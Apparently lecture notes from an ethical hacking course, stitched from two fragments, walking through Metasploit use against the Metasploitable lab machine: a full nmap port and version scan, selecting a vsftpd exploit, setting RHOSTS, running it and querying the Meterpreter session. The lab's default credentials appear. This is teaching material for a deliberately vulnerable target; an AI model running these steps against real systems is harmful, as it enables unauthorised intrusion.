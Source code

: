 **Step 2 : Exploiting the system**

To exploit the system we can use the command `exploit` or `run`

```bash
exploit
```

Now we will be in the target machine.


**Step 3 : Getting Details**


1. Getting the information of target machine

```bash
sysinfo
```

2. Using the command `help` we can check all the available commands in the machine session Eg : here meterpeter session.



# Ethical Hacking Unit 1 Lecture 2

## Metasploitable

username and password both are `msfadmin`

## Scanning all ports and services

```bash
nmap -p- -sV <IP Address>
```

Once we have all the services and and ports scanned we begin with one vulnerability. Here example `vsftpd` is a vulnerable version.

We can do a search is `metasploit` to see if the version is vulnerable or not and the either use exploit command or directly `use <Exploit number in search command>`

```bash
use 0
```

To get more information on the exploit

```bash
info
```

## Configuring the options (IP and Port)

```bash
set RHOSTS <VICTIM IP Address>
```
